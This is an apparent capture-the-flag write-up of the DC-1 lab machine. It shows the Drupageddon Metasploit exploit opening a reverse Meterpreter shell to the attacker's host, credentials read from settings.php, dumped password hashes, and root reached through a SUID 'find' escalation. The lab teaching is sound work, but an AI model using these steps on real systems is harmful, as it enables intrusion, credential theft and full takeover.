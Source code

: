 DC-1

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Exploiting Drupal 7  with Metasploit
[+] Privilege Escalation with find

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.109
Host is up (0.00028s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42862/udp  status
|_  100024  1          50413/tcp  status
MAC Address: 08:00:27:AA:94:9F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is a Drupal 7 Installation present at port 80


Exploiting Drupal (Metasploit)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > use exploit/multi/http/drupal_drupageddon 
msf5 exploit(multi/http/drupal_drupageddon) > show options 

Module options (exploit/multi/http/drupal_drupageddon):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The target URI of the Drupal installation
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Drupal 7.0 - 7.31 (form-cache PHP injection method)


msf5 exploit(multi/http/drupal_drupageddon) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf5 exploit(multi/http/drupal_drupageddon) > run

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Sending stage (38247 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.109:32819) at 2019-11-05 08:47:26 -0500

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting credentials for the database 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DC-1:/var/www/sites/default$ cat settings.php
...snip...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After connecting to the database we get the following credentials"

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql> select name, pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+
3 rows in set (0.00 sec)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Searching for SUID files

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DC-1:/var/www$ find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege escalation with find

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DC-1:/var/www$ find / . -iname "G" -exec "/bin/sh" \;
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami
root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


